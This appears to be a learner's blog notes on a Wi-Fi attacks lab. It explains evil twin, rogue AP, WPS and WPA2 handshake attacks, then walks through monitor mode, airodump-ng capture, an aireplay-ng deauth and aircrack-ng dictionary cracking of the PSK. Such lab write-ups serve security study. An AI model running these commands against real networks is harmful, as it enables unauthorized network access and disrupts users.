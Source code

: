 ```yaml
---
title: Post 71 - Not so secret secret
date: 2024-12-19
tags:
    - wifi
    - airodump-ng
    - aireplay-ng
    - aircrack-ng
---
```

## Task 17, Day 11 `Wi-Fi attacks` If you'd like to WPA, press the star key!  

### Attacks on Wi-Fi
For educational purposes only:  
  - **Evil twin attack**: Fake access point with a similar name to a trusted network (i.e. "Home_Internnet" instead of "Home_Internet"). Attack starts by sending deauth packets to all the users on the legitimate AP. Frustration grows and users open the properties and see another network with the "right" name and stronger signal. They connect to the illegitimate network and their traffic is visible to the attacker.
  - **Rogue access point**: Similar to the evil twin attack, attaker sets up an open Wi-Fi AP near or inside an org's physical premises so it has ideal signal strength. If users' devices are set to auto-connect to open Wi-Fi, they may accidentally join the illegitimate network. 
  - **WPS attack**: Wi-Fi Protected Setup (WPS) PINs are vulnerable in some networks due to insecure configuration. This attack initiates a handshake with the router and captures the response. This contains data related to the PIN and can be brute-forced into revealing the PIN and extracting the PSK.
  - **WPA/WPA2 cracking**: Security of the protocol is heavily influenced by the length and comlexity of the PSK. Cracking WPA starts with sending deauth packets to a legitimate user and capturing the 4-way handshake as the user reconnects. After the handshake is captured, the attacker can crack the password with brute-force or dictionary attacks against the captured handshake file.  

### The 4-way Handshake
Basic steps:  
  - **Router sends a challenge**: The router/AP sends a "challenge" to the client asking it to prove it knows the network's password without directly sharing it.
  - **Client responds with encrypted info**: Client uses the PSK to create an encrypted response that only the router can verify if it also has the correct PSK.
  - **Router verifies and sends confirmation**: If the client's response matches what thr outer expects, the client's PSK is correct and the router sends its own confirmation to the client.
  - **Final check and connection established**: Client verifies the router's response, and if it matches, they finish setting up the secure connection.  

The handshake doesn't directly reveal the PSK, but involves encrypted messages that can only be understood with the same PSK.  

### The Vulnerability
Anyone can "hear" this conversation happening, and can use it as the basis to attempt offline brute-forcing or dictionary attacks. This involves trying different possible passwords and comparing the results to the captured handshake until the same result is achieved.  

### The Practical
In terminal:  
  - `iw dev` to show any wireless devices available, and their configuration.
  - `sudo iw dev wlan2 scan` to use wlan2 to scan for available networks.
    - `BSS(ID)` can help identify the maker of the device, and `SSID` idicates it is sdvertising a network, so it is an AP of some sort.
    - `RSN` (Robust Security Network) is part of WPA2 standard, so network is using WPA2. This typically defines the encryption and authentication settings.
    - `Group and Pairwise ciphers` are CCMP (Counter Mode with Cipher Block Chaining Message Authentication Code Protocol), the encryption method used by WPA2.
    - `Authentication suites` is PSK, indicating it is WPA2-Personal with a shared password for authentication.
    - `DS Paarameter set` is channel 6, showing it it 2.4GHz network.

Monitor mode on the wireless device allows it to listen to all traffic on a specific channel, whether directed at the device or not. Captures all traffic within range for analysis without ever joining network. To set device in monitoring mode:
  - `sudo ip link set dev wlan2 down` to turn off device.
  - `sudo iw dev wlan2 set type monitor` to set device to monitor mode.
  - `sudo ip link set dev wlan2 up` to turn device on.

#### Application
Using 2 terminals to observe capture and issue commands:  
  - `sudo airodump-ng wlan2` to start capturing traffic, specially targeting handshake packets (*note*: by default `airodump-ng` automatically switches the device into monitor mode if it's available).
  - `sudo airodump-ng -c 6 --bssid <MAC-address> -w output-file wlan2` to target a specific channel and MAC address, and save the captures to a few files that start with "output-file". 
    - `STATION` shows the BSSID of the connected device.
    - `sudo aireplay-ng -0 1 -a <AP-MAC-address> -c <Station-MAC-address> wlan2` to start deauth attack.
    - `-0` to specify deauth attack, `1` to specify sending 1 deauth.
    - `-a` BSSID of AP.
    - `-c` BSSID of the client to deauth.
Success is shown when `WPA handshake` shows in top right corner. Can then move on to cracking the PSK by using `aircrack-ng`:    
  - `sudo aircrack-ng -a 2 -b <AP-MAC-address> -w </path/to/wordlist.txt> output*cap` where:
    - `-a 2` indicates WPA/WPA2 attack mode.
    - `-b` indicates AP MAC address.
    - `-w` indicates the dictionary list to use.
    - `output*cap` name of the output files to run the attack against.
Once PSK is cracked, can use it to join the network, after turning off airodump-ng. Can't join a network if the device is in monitor mode. Can join the wireless network with:  
~~~
:~$ wpa_passphrase <SSID> '<PSK-HERE>' > config
:~$ sudo wpa_supplicant -B -c config -i wlan2
~~~

### The Task
Retrieve SSID, BSSID, and PSK info.

### Recommended Stuff
Networking module